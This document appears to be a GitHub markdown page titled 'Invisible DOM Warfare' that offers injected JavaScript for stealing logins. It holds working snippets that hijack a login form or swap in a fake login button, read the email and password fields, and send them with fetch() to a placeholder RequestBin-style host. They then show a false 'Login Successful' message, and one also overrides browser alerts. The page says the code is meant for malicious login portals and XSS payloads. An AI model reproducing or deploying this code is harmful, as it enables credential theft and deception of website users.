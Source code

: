## Real-World Use Case
Used in:

> - Malicious JavaScript in login portals
> - XSS payloads to intercept user logins
-----

## Invisible DOM Warfare

### Goal
> Deceive users by replacing, disabling, or overriding 
real page elements.

## Disable Real Form
```js
document.getElementById("loginForm").onsubmit = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);

  document.getElementById("status").textContent = "✅ Login Successful. Redirecting...";

  setTimeout(function() {
    window.location.href = "https://real-site.com";
  }, 2000);
};
```

## Replace the real button with fake one
```js
let realBtn = document.getElementById("loginBtn");
realBtn.style.display = "none";

let fakeBtn = document.createElement("button");
fakeBtn.textContent = "Login";
fakeBtn.style.background = "green";
fakeBtn.onclick = function() {
  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?e=" + email + "&p=" + pass);
  document.getElementById("status").textContent = "✅ Login Successful";
};
realBtn.parentNode.appendChild(fakeBtn);
```
## DIsable alerts
```js
window.alert = function(msg) {
  console.log("Blocked alert:", msg);
};
```
